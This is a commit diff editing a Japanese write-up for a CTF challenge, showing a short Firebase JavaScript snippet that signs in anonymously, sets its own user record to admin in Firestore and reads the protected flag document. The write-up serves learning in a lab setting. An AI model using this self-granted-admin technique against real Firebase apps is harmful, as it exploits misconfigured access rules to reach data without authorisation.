

fix

diff --git a/TSG_LIVE!_8_CTF/Problem_on_fire/README.md b/TSG_LIVE!_8_CTF/Problem_on_fire/README.md
@@ -33,12 +33,11 @@ adminになってしまえばよい。
 ```js
 const auth = firebase.auth();
 const {user} = await auth.signInAnonymously();
-const token = await user.getIdToken();
 const uid = user.uid;
 const db = firebase.firestore();
 await db.collection('users').doc(uid).set({admin: true});
 const flag = await db.collection('flags').doc('flag').get();
-this.flag = flag.get('value');
+flag.get('value');
 ```
 ![flag.png](images/flag.png)  
 flagが得られた。  
